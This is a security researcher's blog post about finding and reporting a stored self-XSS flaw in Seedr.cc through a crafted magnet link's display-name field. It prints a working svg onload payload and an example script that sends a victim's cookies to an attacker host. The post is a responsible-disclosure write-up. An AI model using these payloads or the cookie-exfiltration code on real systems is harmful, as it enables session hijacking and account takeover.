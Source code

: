 ```yaml
---
title: How I Discovered a stored Self-XSS Vulnerability in Seedr.cc and Its Impact
description: This blog shares my journey of uncovering a Self-XSS vulnerability in Seedr.cc and how the vulnerability, typically considered less severe, can still have significant impacts.
author: hemantapkh
date: 2024-08-25 15:48:00 +0000
categories: [Cybersecurity]
tags: [security, XSS, hacking]
pin: false
math: false
mermaid: false
image:
  path: https://assets.hemantapkh.com/blog/seedr-xss/thumbnail.webp
  alt: Image from blog.detectify.com
---
```


## What is XSS?

Cross-Site Scripting (XSS) is a type of vulnerability found in web applications where an attacker can inject malicious scripts into content that is then delivered to users. These scripts can execute in the victim's browser, leading to various malicious activities such as stealing cookies, session hijacking, or defacing websites.

### Types of XSS Vulnerabilities

- **Reflected XSS**:
  Occurs when user-supplied data is immediately reflected back in the web application's response, such as in error messages or search results, without being properly sanitized. The malicious script is executed when the crafted URL is clicked and processed, but the data is not stored on the server.

- **Stored XSS**:
  Happens when user input is stored on the server (e.g., in a database, comment field) and later displayed to users without proper sanitization. The malicious script is executed when the stored data is retrieved and rendered.

- **DOM-Based XSS**:
  Involves the execution of a malicious script due to changes made to the client-side DOM environment. Unlike other types, the payload never reaches the server. It is similar to reflected XSS because no information is stored during the attack; both rely on tricking a victim into interacting with a malicious URL.


In this post, we'll focus on my discovery of a stored Self-XSS vulnerability in [Seedr.cc](https://seedr.cc), one of the most popular services that allow users to download torrents directly to the cloud.

## Discovering XSS in Seedr

**December 1, 2020** I was exploring the site. Out of curiosity, I attempted to rename one of my files using characters such as `<`, `>`, `%`, `&`, and `^`, which are typically not allowed in filenames on most sites. The site threw an **"Illegal characters used in filename"** error.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr-error-alert.png)

This got me thinking: 
what if the torrent file itself has these forbidden characters? So, I decided to test this out by creating a magnet link with such characters. 

The basic structure of a torrent [magnet URI](https://en.wikipedia.org/wiki/Magnet_URI_scheme) is as follows:

```text
magnet:?xt=urn:btih:<info_hash>&dn=<name>&tr=<tracker_url>
```

In this URL schema, `dn` stands for display name. First, I experimented with how their system handled illegal characters passed through the magnet link. Surprisingly, they were not filtered or encoded. With this discovery, I decided to take it a step further and craft an XSS vector within the magnet link by modifying the `dn` parameter while keeping the hash of a random torrent.

```text
magnet:?xt=urn:btih:44E6FC672F9476589951726B4693F6CEB2B4759D&dn=<svg onload=alert(1)>
```

> You can find an excellent XSS cheat sheet here: [OWASP XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
{: .prompt-tip }

After adding this magnet link on my Seedr account, my XSS vector was permanently stored. Every time I refresh my home page, an alert box displaying "1" would pop up.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr.jpeg)

## Impact

This vulnerability could have severe implications, including account takeovers via malicious JavaScript injections. Although the XSS vulnerability I discovered is a type of Self-XSS, meaning it executes only in the context of the user who submits the payload, it can still be exploited to target other users.

Imagine someone injecting the similar script into a magnet link and sharing it with unsuspecting victims:

```html
<script>
  var userCookie = document.cookie;
  var img = new Image();
  img.src = 'https://hackersite.com/store?cookie=' + encodeURIComponent(userCookie);
</script>
```

> You can find an excellent XSS prevention cheat sheet here: [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
{: .prompt-tip }


## Reporting the Vulnerability

**December 2** I reported this issue to the Seedr team, and they swiftly implemented a fix.

![IMAGE](https://assets.hemantapkh.com/blog/seedr-xss/seedr-reply-email.png)

Shortly afterward, I found another vulnerability on the same platform, which allowed me to add unlimited torrents beyond my storage limit. This next discovery earned me my first bug bounty reward, which I will discuss in my next blog. Stay tuned! 🚀
